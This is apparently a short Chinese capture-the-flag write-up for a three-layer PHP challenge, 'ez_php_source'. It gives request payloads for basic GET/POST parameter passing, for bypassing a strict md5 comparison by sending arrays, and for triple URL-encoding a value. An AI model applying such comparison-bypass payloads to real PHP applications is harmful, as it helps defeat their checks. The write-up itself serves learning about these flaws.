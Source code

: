 ## ez_php_source

简单的php套娃判断，题目一共三层

第一层考点：

学会简单的get和post传参

```
get:   ?b=408
post:  a=405
```

第二层考点：

需要知道php中md5强比较的绕过,使用数组会导致md5返回null，学会简单查点资料

```
post:  c[]=1&d[]=2
```

第三层考点：

get传参的特殊性，会事先对参数进行一次解码，所以需要一共三次url编码

```
get:   last2=TheBestLanguage%25253D%25253D%25253D%25253DPHP
post:  last1=TheBestLanguage====PHP
```

最终payload：

```
get:   ?b=408&last2=TheBestLanguage%25253D%25253D%25253D%25253DPHP
post:  a=405&c[]=1&d[]=2&last1=TheBestLanguage====PHP
```
